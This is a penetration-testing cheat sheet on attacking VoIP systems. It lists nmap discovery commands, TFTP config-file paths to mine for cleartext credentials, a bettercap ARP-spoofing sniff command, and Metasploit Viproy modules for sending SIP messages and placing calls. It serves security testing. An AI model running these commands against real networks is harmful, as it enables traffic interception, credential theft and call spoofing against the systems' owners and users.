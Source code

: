 # Hacking VoIP

## Usefull tools
 - VIPROY (http://www.viproy.com/)
 - VIProxy (https://github.com/fozavci/viproxy)
 - SIPVicious
 - Yersinia
 - Cain&Abel
 - UCSniff

## Network discovery
nmap -sV --script=banner 
nmap -sU -p 69 (for indentify the tftp servers)
nmap -p 5060-5062 (SIP)
nmap -p 5222 (XMPP)
nmap -p 80,443,8443,8080 (Admin Web interface)
svmap {IPs}

## TFTP network captures
Sniff the network looking for tftp frames in order to retrieve sensitive informations
(Need to have a valid client)

## Jabber Config retrieval
The default port for tftp is on 69/UDP, can also be 6969/UDP
Search on the following urls(tftp over http on port 6970/TCP):
 - URL:6970/SPDefault.cnf.xml
 - URL:6970/CSF800XXXXX.cnf.xml (in my case I had to increment CSF80011xxx from 000 to 999)
 - URL:6970/global-settings.xml
 - URL:6970/jabber-config.xml
 - SEPDefault.cnf, SEPXXXXXXXXXXXX.cnf.xml
 - SIPDefault.cnf, SIPXXXXXXXXXXXX.cnf.xml

Search on the configuraton files if there are sensitive information, user/password on cleartext.

Moreover, you can arp spoof the exchange between clients and the tftp server with bettercap:

```
sudo bettercap -eval "set arp.spoof.targets {ip}; set net.sniff.verbose false; set net.sniff.output arpspoof.pcap; net.sniff on; arp.spoof on"
```

## SIP attacks

With VIPROY and msfconsole try at least these two exploits

### Send message:

```
use auxiliary/voip/viproy_sip_message
show options 
set RHOST 192.168.1.222
set FROM 203
set TO 201
set USERNAME 203
set LOGIN true
set MESSAGE_CONTENT test
set PASSWORD test12345
run
```

http://www.viproy.com/captures/sip_message.pcapng

### Make a call:

```
use auxiliary/voip/viproy_sip_invite
show options
set CPORT 5075
set RHOST 192.168.1.222
set FROM 203
set TO 201
set DEBUG true
set VERBOSE true
set LOGIN true
set PASSWORD test12345
set USERNAME 203
run
```

http://www.viproy.com/captures/sip_invite.pcapng

## Links

https://hub.packtpub.com/how-to-attack-an-infrastructure-using-voip-exploitation-tutorial/
https://pentestlab.blog/tag/viproy/
